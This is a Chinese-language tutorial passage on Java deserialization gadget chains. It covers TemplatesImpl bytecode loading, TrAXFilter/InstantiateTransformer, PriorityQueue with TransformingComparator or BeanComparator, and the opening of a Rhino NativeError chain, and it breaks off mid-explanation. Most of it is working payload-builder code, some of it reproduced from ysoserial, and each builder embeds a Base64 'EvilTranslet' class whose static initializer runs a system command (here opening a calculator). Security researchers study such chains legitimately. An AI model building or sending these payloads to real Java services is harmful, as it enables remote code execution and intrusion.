@Override
public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
}
}TemplatesImplLoader.java
将 EvilTranslet 编译后，替换字节码的内容并再次尝试
public class TemplatesImplLoader {
public static void main(String[] args) throws Exception {
TemplatesImpl templatesImpl = new TemplatesImpl();
Reflections.setFieldValue(templatesImpl, "_name", "evil");
Reflections.setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());
byte[] code =
Base64.getDecoder()
.decode(
"yv66vgAAADQAKQoACQAYCgAZABoIABsKABkAHAcAHQcAHgoABgAfBwAgBwAhAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACkV4Y2VwdGlvbnMHACIBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIPGNsaW5pdD4BAA1TdGFja01hcFRhYmxlBwAdAQAKU291cmNlRmlsZQEAEUV2aWxUcmFuc2xldC5qYXZhDAAKAAsHACMMACQAJQEAEm9wZW4gLWEgY2FsY3VsYXRvcgwAJgAnAQATamF2YS9pby9JT0V4Y2VwdGlvbgEAGmphdmEvbGFuZy9SdW50aW1lRXhjZXB0aW9uDAAKACgBAAxFdmlsVHJhbnNsZXQBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAGChMamF2YS9sYW5nL1Rocm93YWJsZTspVgAhAAgACQAAAAAABAABAAoACwABAAwAAAAdAAEAAQAAAAUqtwABsQAAAAEADQAAAAYAAQAAAAkAAQAOAA8AAgAMAAAAGQAAAAMAAAABsQAAAAEADQAAAAYAAQAAABUAEAAAAAQAAQARAAEADgASAAIADAAAABkAAAAEAAAAAbEAAAABAA0AAAAGAAEAAAAaABAAAAAEAAEAEQAIABMACwABAAwAAABUAAMAAQAAABe4AAISA7YABFenAA1LuwAGWSq3AAe/sQABAAAACQAMAAUAAgANAAAAFgAFAAAADAAJAA8ADAANAA0ADgAWABAAFAAAAAcAAkwHABUJAAEAFgAAAAIAFw==");
Reflections.setFieldValue(templatesImpl, "_bytecodes", new byte[][] {code});
templatesImpl.newTransformer();
}
}运行一下就可以看到弹窗了

类加载的方式有很多种，除了使用
TemplatesImpl，常见的还有BCEL。
TrAXFilter
TemplatesImpl 触发类加载的 public 方法只有两个，
TemplatesImpl#newTransformerTemplatesImpl#getOutputProperties
而 TemplatesImpl#readObject 方法中并没有什么有用的东西，所以想使用此利用链需要找到能够触发上述两个方法之一的工具类。
而其中一个，就是 TrAXFilter，它也是 org.apache.xalan 中的类，在构造方法中能够调用 newTransformer 方法。
public TrAXFilter(Templates templates) throws
TransformerConfigurationException
{
_templates = templates;
_transformer = (TransformerImpl) templates.newTransformer();
_transformerHandler = new TransformerHandlerImpl(_transformer);
_useServicesMechanism = _transformer.useServicesMechnism();
}InstantiateTransformer
那么如何调用构造方法？转了一圈，还得回到 commons-collections，Transformer 的实现类 InstantiateTransformer。
InstantiateTransformer 的 tranform 方法可以调用指定对象的构造方法
public Object transform(Object input) {
try {
if (input instanceof Class == false) {
throw new FunctorException(
"InstantiateTransformer: Input object was not an instanceof Class, it was a "
+ (input == null ? "null object" : input.getClass().getName()));
}
Constructor con = ((Class) input).getConstructor(iParamTypes);
return con.newInstance(iArgs);TemplatesImplTrAXFilterExec.java
有了前面的先验知识，只需要将 LazyMapAnnotationExec.java 稍加修改就可以了。有没有拼积木的感觉？你甚至可以套用前面的内容，替换掉 AnnotationInvocationHandler，整一个更简单点的利用链。
public static Object getObject() throws Exception {
TemplatesImpl templatesImpl = new TemplatesImpl();
Reflections.setFieldValue(templatesImpl, "_name", "evil");
Reflections.setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());
byte[] code =
Base64.getDecoder()
.decode(
"yv66vgAAADQAKQoACQAYCgAZABoIABsKABkAHAcAHQcAHgoABgAfBwAgBwAhAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACkV4Y2VwdGlvbnMHACIBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIPGNsaW5pdD4BAA1TdGFja01hcFRhYmxlBwAdAQAKU291cmNlRmlsZQEAEUV2aWxUcmFuc2xldC5qYXZhDAAKAAsHACMMACQAJQEAEm9wZW4gLWEgY2FsY3VsYXRvcgwAJgAnAQATamF2YS9pby9JT0V4Y2VwdGlvbgEAGmphdmEvbGFuZy9SdW50aW1lRXhjZXB0aW9uDAAKACgBAAxFdmlsVHJhbnNsZXQBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAGChMamF2YS9sYW5nL1Rocm93YWJsZTspVgAhAAgACQAAAAAABAABAAoACwABAAwAAAAdAAEAAQAAAAUqtwABsQAAAAEADQAAAAYAAQAAAAkAAQAOAA8AAgAMAAAAGQAAAAMAAAABsQAAAAEADQAAAAYAAQAAABUAEAAAAAQAAQARAAEADgASAAIADAAAABkAAAAEAAAAAbEAAAABAA0AAAAGAAEAAAAaABAAAAAEAAEAEQAIABMACwABAAwAAABUAAMAAQAAABe4AAISA7YABFenAA1LuwAGWSq3AAe/sQABAAAACQAMAAUAAgANAAAAFgAFAAAADAAJAA8ADAANAA0ADgAWABAAFAAAAAcAAkwHABUJAAEAFgAAAAIAFw==");
Reflections.setFieldValue(templatesImpl, "_bytecodes", new byte[][] {code});
ChainedTransformer fakeTransformer =
new ChainedTransformer(new Transformer[] {new ConstantTransformer("1")});
ChainedTransformer chainedTransformer =
new ChainedTransformer(
new Transformer[] {
new ConstantTransformer(TrAXFilter.class),
new InstantiateTransformer(new Class[] {Templates.class}, new Object[] {templatesImpl})
});
LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap<>(), fakeTransformer);
InvocationHandler handler =
(InvocationHandler)
Reflections.getFirstCtor(
"sun.reflect.annotation.AnnotationInvocationHandler")
.newInstance(Override.class, lazyMap);
Map map =
(Map)
Proxy.newProxyInstance(
ClassLoader.getSystemClassLoader(),
new Class[] {Map.class},
handler);
InvocationHandler anotherHandler =
(InvocationHandler)
Reflections.getFirstCtor(
"sun.reflect.annotation.AnnotationInvocationHandler")
.newInstance(Override.class, map);
Reflections.setFieldValue(lazyMap, "factory", chainedTransformer);
return anotherHandler;
}ysoserial/CommonsCollections3
CC3 的实现思路和前面是一样的。
public Object getObject(final String command) throws Exception {
Object templatesImpl = Gadgets.createTemplatesImpl(command);
// inert chain for setup
final Transformer transformerChain = new ChainedTransformer(
new Transformer[]{ new ConstantTransformer(1) });
// real chain for after setup
final Transformer[] transformers = new Transformer[] {
new ConstantTransformer(TrAXFilter.class),
new InstantiateTransformer(
new Class[] { Templates.class },
new Object[] { templatesImpl } )};
final Map innerMap = new HashMap();
final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);
final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);
Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain
return handler;
}TemplatesImplPriorityQueueExec.java
前面已经讲到调用 TemplatesImpl#newTransformer 一种方式，但还有更直接的，比如使用 InvokerTransformer 并配合 PriorityQueue。
怎么配合 PriorityQueue ？
先看看 PriorityQueue#readObject
private void readObject(java.io.ObjectInputStream s)
throws java.io.IOException, ClassNotFoundException {
// Read in size, and any hidden stuff
s.defaultReadObject();
// ...
// Elements are guaranteed to be in "proper order", but the
// spec has never explained what that might be.
heapify();
}PriorityQueue 是优先队列，在 readObject 中，读取内部元素后会调用 heapify 对它们进行排序。而既然是排序，就需要有比较的规则，这就得提到一个接口 java.util.Comparator。如果指定了 Comparator，那么比较时就会调用 compare 方法。
可是这和 InvokerTransformer#tranform 有什么联系？
还是那个熟悉的 commons-collections 库，它提供了一个工具类 TransformingComparator，它是一个装饰器，可以用 Transformer 装饰 Comparator 以此改变 Comparator 的行为。
Decorates another Comparator with transformation behavior. That is, the return value from the transform operation will be passed to the decorated Comparator#compare(Object,Object) method.
查看一下 TransformingComparator#compare 方法，可以看到对 transformer.transform 的调用
public int compare(Object obj1, Object obj2) {
Object value1 = this.transformer.transform(obj1);
Object value2 = this.transformer.transform(obj2);
return this.decorated.compare(value1, value2);
}很好，只需通过 TransformingComparator 封装一下 InvokerTransformer 即可。
public static Object getObject() throws Exception {
TemplatesImpl templatesImpl = new TemplatesImpl();
Reflections.setFieldValue(templatesImpl, "_name", "evil");
Reflections.setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());
byte[] code =
Base64.getDecoder()
.decode(
"yv66vgAAADQAKQoACQAYCgAZABoIABsKABkAHAcAHQcAHgoABgAfBwAgBwAhAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACkV4Y2VwdGlvbnMHACIBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIPGNsaW5pdD4BAA1TdGFja01hcFRhYmxlBwAdAQAKU291cmNlRmlsZQEAEUV2aWxUcmFuc2xldC5qYXZhDAAKAAsHACMMACQAJQEAEm9wZW4gLWEgY2FsY3VsYXRvcgwAJgAnAQATamF2YS9pby9JT0V4Y2VwdGlvbgEAGmphdmEvbGFuZy9SdW50aW1lRXhjZXB0aW9uDAAKACgBAAxFdmlsVHJhbnNsZXQBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAGChMamF2YS9sYW5nL1Rocm93YWJsZTspVgAhAAgACQAAAAAABAABAAoACwABAAwAAAAdAAEAAQAAAAUqtwABsQAAAAEADQAAAAYAAQAAAAkAAQAOAA8AAgAMAAAAGQAAAAMAAAABsQAAAAEADQAAAAYAAQAAABUAEAAAAAQAAQARAAEADgASAAIADAAAABkAAAAEAAAAAbEAAAABAA0AAAAGAAEAAAAaABAAAAAEAAEAEQAIABMACwABAAwAAABUAAMAAQAAABe4AAISA7YABFenAA1LuwAGWSq3AAe/sQABAAAACQAMAAUAAgANAAAAFgAFAAAADAAJAA8ADAANAA0ADgAWABAAFAAAAAcAAkwHABUJAAEAFgAAAAIAFw==");
Reflections.setFieldValue(templatesImpl, "_bytecodes", new byte[][] {code});
InvokerTransformer<Object, Object> invokerTransformer =
new InvokerTransformer<>("toString", new Class[] {}, new Object[] {});
PriorityQueue<Object> queue = new PriorityQueue<Object>(2, new。TransformingComparator<Object, Object>(invokerTransformer));
// 至少放入两个元素
queue.add(1);
queue.add(2);
Reflections.setFieldValue(invokerTransformer, "iMethodName", "newTransformer");
// templatesImpl 需要放置在 index 为 0 的位置
Reflections.setFieldValue(queue, "queue", new Object[]{templatesImpl, 1});
return queue;
}这里需要注意一点，你可以选择直接放两个 templatesImpl 进入队列，而不用考虑使用反射设置 queue 成员的值。
queue.add(templatesImpl);
queue.add(templatesImpl);使用反射的方式可以让序列化之后的内容更小一点，由于 heapify 方法的判断条件，需要元素个数大于 2 才能触发 TransformingComparator，且要将 templatesImpl 放至在第一个。
private void heapify() {
for (int i = (size >>> 1) - 1; i >= 0; i--)
siftDown(i, (E) queue[i]);
}简化版调用关系梳理
PriorityQueue.readObject();
heapify();
siftDown(i, (E) queue[i]);
// comparator != null 使用 comparator 进行比较
siftDownUsingComparator(k, x);
// 调用 TransformingComparator#compare 方法
comparator.compare(x, (E) c)；
// 调用 InvokerTransformer#transform，触发后续命令执行
this.transformer.transform(obj1);Commons Collections 4 的变化
前面构造的 TemplatesImplPriorityQueueExec.java 只能在 commons-collections4:4.0 下使用，因为 TransformingComparator 从 commons-collections4:4.0 开始才实现了 Serializable 接口；而 4.0 之后的版本 InvokerTransformer/InstantiateTransformer 等 Transformer 不支持序列化，无法再使用了。
ysoserial/CommonsCollections2
前面的实现方式，实际就是 CC2 的实现
public Queue<Object> getObject(final String command) throws Exception {
final Object templates = Gadgets.createTemplatesImpl(command);
// mock method name until armed
final InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);
// create queue with numbers and basic comparator
final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(transformer));
// stub data for replacement later
queue.add(1);
queue.add(1);
// switch method called by comparator
Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");
// switch contents of queue
final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
queueArray[0] = templates;
queueArray[1] = 1;
return queue;
}为什么需要 TemplatesImpl 利用链
在反序列化漏洞逐渐进入公众视野后，出现了一类如 SerialKiller 的工具，通过黑名单的方式拒绝特定类的反序列化。其中就包含了 InvokerTransformer，这意味着以 InvokerTransformer 基础进行变种的各类利用链的可用性会逐渐降低。
攻击者或安全研究人员需要一种新的方案。TemplatesImpl 利用链和 InstantiateTransformer 被发掘。
TemplatesImplBeanComparator.java
前面针对 TemplatesImpl 利用链的开发，都是针对 TemplatesImpl#newTransformer，那 TemplatesImpl#getOutputProperties 呢？
当然也可以。
这就需要介绍另一个主角 BeanComparator 了。听名字能大概知道，它也是一个 Comparator，BeanComparator 是 commons-beanutils 中的一个类。
直接看看它的 compare 方法
public int compare( T o1, T o2 ) {
if ( property == null ) {
// compare the actual objects
return internalCompare( o1, o2 );
}
try {
Object value1 = PropertyUtils.getProperty( o1, property );
Object value2 = PropertyUtils.getProperty( o2, property );
return internalCompare( value1, value2 );
}
// ...这里需要关注 PropertyUtils.getProperty 方法，查看它的注释知道返回一个 bean 的指定属性的值。
Return the value of the specified property of the specified bean, no matter which property reference format is used, with no type conversions.
回头看看 TemplatesImpl，按照 JavaBean 的定义 getOutputProperties 方法对应的成员名称应该是 outputProperties（注意⚠️：这个成员并不存在，存在的是 _outputProperties）。
那 PropertyUtils.getProperty 是否会调用 getOutputProperties 来获取 outputProperties 属性？还是通过其它方式？这里不着急深入代码查看，直接测试
@Test
public void getPropertyTest() throws Exception {
TemplatesImpl templatesImpl = new TemplatesImpl();
Reflections.setFieldValue(templatesImpl, "_name", "evil");
Reflections.setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());
byte[] code =
Base64.getDecoder()
.decode(
"yv66vgAAADQAKQoACQAYCgAZABoIABsKABkAHAcAHQcAHgoABgAfBwAgBwAhAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACkV4Y2VwdGlvbnMHACIBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIPGNsaW5pdD4BAA1TdGFja01hcFRhYmxlBwAdAQAKU291cmNlRmlsZQEAEUV2aWxUcmFuc2xldC5qYXZhDAAKAAsHACMMACQAJQEAEm9wZW4gLWEgY2FsY3VsYXRvcgwAJgAnAQATamF2YS9pby9JT0V4Y2VwdGlvbgEAGmphdmEvbGFuZy9SdW50aW1lRXhjZXB0aW9uDAAKACgBAAxFdmlsVHJhbnNsZXQBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAGChMamF2YS9sYW5nL1Rocm93YWJsZTspVgAhAAgACQAAAAAABAABAAoACwABAAwAAAAdAAEAAQAAAAUqtwABsQAAAAEADQAAAAYAAQAAAAkAAQAOAA8AAgAMAAAAGQAAAAMAAAABsQAAAAEADQAAAAYAAQAAABUAEAAAAAQAAQARAAEADgASAAIADAAAABkAAAAEAAAAAbEAAAABAA0AAAAGAAEAAAAaABAAAAAEAAEAEQAIABMACwABAAwAAABUAAMAAQAAABe4AAISA7YABFenAA1LuwAGWSq3AAe/sQABAAAACQAMAAUAAgANAAAAFgAFAAAADAAJAA8ADAANAA0ADgAWABAAFAAAAAcAAkwHABUJAAEAFgAAAAIAFw==");
Reflections.setFieldValue(templatesImpl, "_bytecodes", new byte[][] {code});
PropertyUtils.getProperty(templatesImpl, "outputProperties");
// 使用 _outputProperties 不会触发 getOutputProperties 方法
// PropertyUtils.getProperty(templatesImpl, "_outputProperties");
}成功弹窗，但是如果设置第二个参数为 _outputProperties 则不会。这和 JavaBean 的规范有关，根据规范，_outputProperties 对应的 get 方法应该为 get_outputProperties。
从前面的测试中可以知道，即使成员 outputProperties 根本不存在，getOutputProperties 方法也会被调用。
那么根据总结的思路可以构造如下代码
public static Object getObject() throws Exception {
TemplatesImpl templatesImpl = new TemplatesImpl();
Reflections.setFieldValue(templatesImpl, "_name", "evil");
Reflections.setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());
byte[] code =
Base64.getDecoder()
.decode(
"yv66vgAAADQAKQoACQAYCgAZABoIABsKABkAHAcAHQcAHgoABgAfBwAgBwAhAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACkV4Y2VwdGlvbnMHACIBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIPGNsaW5pdD4BAA1TdGFja01hcFRhYmxlBwAdAQAKU291cmNlRmlsZQEAEUV2aWxUcmFuc2xldC5qYXZhDAAKAAsHACMMACQAJQEAEm9wZW4gLWEgY2FsY3VsYXRvcgwAJgAnAQATamF2YS9pby9JT0V4Y2VwdGlvbgEAGmphdmEvbGFuZy9SdW50aW1lRXhjZXB0aW9uDAAKACgBAAxFdmlsVHJhbnNsZXQBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAGChMamF2YS9sYW5nL1Rocm93YWJsZTspVgAhAAgACQAAAAAABAABAAoACwABAAwAAAAdAAEAAQAAAAUqtwABsQAAAAEADQAAAAYAAQAAAAkAAQAOAA8AAgAMAAAAGQAAAAMAAAABsQAAAAEADQAAAAYAAQAAABUAEAAAAAQAAQARAAEADgASAAIADAAAABkAAAAEAAAAAbEAAAABAA0AAAAGAAEAAAAaABAAAAAEAAEAEQAIABMACwABAAwAAABUAAMAAQAAABe4AAISA7YABFenAA1LuwAGWSq3AAe/sQABAAAACQAMAAUAAgANAAAAFgAFAAAADAAJAA8ADAANAA0ADgAWABAAFAAAAAcAAkwHABUJAAEAFgAAAAIAFw==");
Reflections.setFieldValue(templatesImpl, "_bytecodes", new byte[][] {code});
BeanComparator<Object> beanComparator = new BeanComparator<>("integer");
PriorityQueue<Object> queue = new PriorityQueue<Object>(2, null);
queue.add(1);
queue.add(2);
Reflections.setFieldValue(queue, "queue", new Object[]{templatesImpl, 1});
Reflections.setFieldValue(queue, "comparator", beanComparator);
Reflections.setFieldValue(beanComparator, "property", "outputProperties");
return queue;
}简化版调用关系梳理
PriorityQueue.readObject();
heapify();
siftDown(i, (E) queue[i]);
// comparator != null 使用 comparator 进行比较
siftDownUsingComparator(k, x);
// 调用 BeanComparator#compare 方法
comparator.compare(x, (E) c)；
BeanComparator.compare(T o1, T o2);
PropertyUtils.getProperty(o1, property);
// 调用 getOutputProperties 触发命令执行
TemplatesImpl.getOutputProperties()ysoserial/CommonsBeanutils1
前面的实现正是 CommonsBeanutils1
public Object getObject(final String command) throws Exception {
final Object templates = Gadgets.createTemplatesImpl(command);
// mock method name until armed
final BeanComparator comparator = new BeanComparator("lowestSetBit");
// create queue with numbers and basic comparator
final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
// stub data for replacement later
queue.add(new BigInteger("1"));
queue.add(new BigInteger("1"));
// switch method called by comparator
Reflections.setFieldValue(comparator, "property", "outputProperties");
// switch contents of queue
final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
queueArray[0] = templates;
queueArray[1] = templates;
return queue;
}MozillaRhino
Rhino 是由 Java 实现的 JavaScript 引擎，最初由 Mozilla 开发，后来曾被集成至 JDK 中，此项目进一步扩展了 Java 的动态性，使 Java 可以调用 JS 脚本，实现脚本语言与 Java 语言的数据交换。Rhino 脚本引擎过去已经在 JVM 沙盒逃逸中被滥用（例如 Michael Schierl 的 CVE-2011-3544 和 James Forshaw 的 CVE-2012-3213 。
从 JDK 8 开始 JS 引擎由 Nashorn 提供支持。你可以使用
ScriptEngineManager().getEngineByName("nashorn/javascript")
在 Oracle JRE 6/7 中内嵌了 Rhino 的旧分支（位于 sun.org.mozilla.*），Oracle 在 JRE7u13 中对 Rhino 核心类进行了一些强化，使其不再可序列化。这些更改是为了修复 CVE-2012-3213，但是这些更改并没有被纳入 Mozilla 实现的 Rhino 中，或者说没有被纳入 OpenJDK 中，因此该利用链在某些情况下依旧可用。
这条利用链的调用过程和构造都有点复杂。下面使用的
Rhino版本为1.7R3，ysoserial中内嵌的版本为1.7R2。
ScriptableObject$GetterSlot
Rhino 中 JavaScript 对象通常都表示为 ScriptableObject 及其子类的实例，它实现了 Scriptable 接口『所有的 JS 对象都需要直接或间接的实现该接口』，但需要注意 ScriptableObject 是抽象类，无法直接使用。它有两个核心成员 slots 和 prototypeObject
private transient Slot[] slots;
// 关联的对象原型
private Scriptable prototypeObject;在 ScriptableObject 内部有一个 Slot 的实现类，GetterSlot，它重载了 getValue 方法
@Override
Object getValue(Scriptable start) {
if (getter != null) {
if (getter instanceof MemberBox) {
MemberBox nativeGetter = (MemberBox)getter;
Object getterThis;
Object[] args;
if (nativeGetter.delegateTo == null) {
getterThis = start;
args = ScriptRuntime.emptyArgs;
} else {
getterThis = nativeGetter.delegateTo;
args = new Object[] { start };
}
return nativeGetter.invoke(getterThis, args); // [9] 动态调用方法
} else {
Function f = (Function)getter;
Context cx = Context.getContext();
return f.call(cx, f.getParentScope(), start,
ScriptRuntime.emptyArgs);
}
}
if (value instanceof LazilyLoadedCtor) {
LazilyLoadedCtor initializer = (LazilyLoadedCtor)value;
try {
initializer.init();
} finally {
value = initializer.getValue();
}
}
return value;
}查看 getValue 方法，在 [9] 中会调用 MemberBox#invoke 方法，此方法的实现如下
Object invoke(Object target, Object[] args) {
Method method = method();
try {
try {
return method.invoke(target, args);看到着你大概就能明白一点了，MemberBox 存在方法的动态调用，也许能够利用这一点构造利用链。
那么哪里能调用到 GetterSlot#getValue 方法？先在 ScriptableObject 内部搜寻，可以找到如下调用链
getProperty(Scriptable obj, String name)
get(String name, Scriptable start)
getImpl(name, 0, start);
slot.getValue(start);但是查看 ScriptableObject#readObject，并没有直接能调用到以上任意一个方法的地方，甚至没有过多的方法调用。而且 ScriptableObject 是抽象类不能直接实例化的，为此可以看看它的子类。
Slots 反序列化时可控吗
slots 被标记为 transient 默认情况下序列化时不会写入流中，但是查看 ScriptableObject#writeObject/readObject 方法，能够看到 slots 中的内容依旧会被写入流中。只不过是从 firstAdded 开始从链表中顺序读取并写入。所以不影响利用链的构建
private synchronized void writeObject(ObjectOutputStream out)
throws IOException
{
out.defaultWriteObject();
// ...
out.writeInt(slots.length);
Slot slot = firstAdded;
while (slot != null && slot.wasDeleted) {
// as long as we're traversing the order-added linked list,
// remove deleted slots
slot = slot.orderedNext;
}
firstAdded = slot;
while (slot != null) {
out.writeObject(slot);
// ...
}
private void readObject(ObjectInputStream in)
throws IOException, ClassNotFoundException
{
in.defaultReadObject();
int tableSize = in.readInt();
if (tableSize != 0) {
// ...
slots = new Slot[tableSize]; // 初始化 slots 数组
int objectsCount = count;
Slot prev = null;
for (int i=0; i != objectsCount; ++i) {
lastAdded = (Slot)in.readObject(); // 读取 slot
if (i==0) {
firstAdded = lastAdded;
} else {
prev.orderedNext = lastAdded;
}
int slotIndex = getSlotIndex(tableSize, lastAdded.indexOrHash);
addKnownAbsentSlot(slots, lastAdded, slotIndex); // 插入 slots
prev = lastAdded;
}
}
}NativeError
NativeError 是 ScriptableObject 的子类之一，但它并不是直接继承的的 ScriptableObject 而是继承了 ScriptableObject 的子类 IdScriptableObject
重点在 NativeError#toString 方法中
@Override
public String toString()
{
// According to spec, Error.prototype.toString() may return undefined.
Object toString = js_toString(this); // [10] 参数为 this，类型 NativeError
return toString instanceof String ? (String) toString : super.toString();
}
private static Object js_toString(Scriptable thisObj) {
Object name = ScriptableObject.getProperty(thisObj, "name");可以看到 js_toString 中会调用 ScriptableObject#getProperty 方法，而这个方法能够间接调用到 GetterSlot#getValue 方法。
